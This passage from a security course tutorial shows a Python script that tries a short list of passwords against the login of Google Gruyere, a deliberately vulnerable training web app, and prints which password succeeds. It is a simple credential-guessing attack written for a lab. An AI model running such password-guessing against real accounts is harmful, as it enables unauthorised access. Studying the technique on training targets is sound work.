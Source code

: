Hopefully as information security professionals you have noticed one of the flaws in this insecure web application.  But that is beside the point of this course.  We will use it is it is and demonstrate how to log into this website.  

```python
import requests

session_id = '372024854800729218315573898331817432705'
url_base = 'http://google-gruyere.appspot.com/{}/{}'
sign_in_page = 'login'

# bad part of our script but probably okay since these aren't our
username = 'test'
passwords_to_try = ['password', 'not_the_password', 'test']

session = requests.session()

for password in passwords_to_try:
    login_url = url_base.format(session_id, sign_in_page)
    login_url += '?uid={}&pw={}'.format(username, password)

    print('trying password: ' + password + " .....", end = ' ')
    result = session.get(login_url)

    if result.status_code == requests.codes.ok:
        # well unfortunately a login failure retuns OK too
        if "Invalid user name or password." in result.text:
            print('FAILED!!!')
        else:
            print('We found the password - ', password)
    else:
        print(result.status_code)
```

Execution of this script will result in the following output:

![Gruyere Login Attempt Results](../images/gruyere_login_output.png)

